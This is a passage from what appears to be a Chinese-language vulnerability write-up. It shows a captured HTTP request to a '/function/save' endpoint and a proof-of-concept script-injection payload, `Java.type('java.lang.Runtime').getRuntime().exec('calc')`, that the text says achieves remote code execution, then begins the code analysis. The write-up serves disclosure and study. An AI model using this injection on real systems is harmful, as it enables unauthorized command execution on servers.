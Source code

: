 抓包：

```plain
POST /function/save HTTP/1.1
Host: 10.151.220.236:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 93
Origin: http://10.151.220.236:8088
Connection: close
Referer: http://10.151.220.236:8088/function-edit.html
Cookie: JSESSIONID=43BED3B6A9E85CBF4C4754F334C36953; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706163744; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706167658

id=&name=aaa&parameter=aaa&script=aaa
```

设置 script 参数为`}Java.type('java.lang.Runtime').getRuntime().exec('calc');{`

[![](assets/1706254478-2f78cdb80e2b96dc141f832e6049a8a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125205205-8af63996-bb80-1.png)

触发 rce

## 漏洞分析

通过/function/save 找到对应的 controller：FunctionController

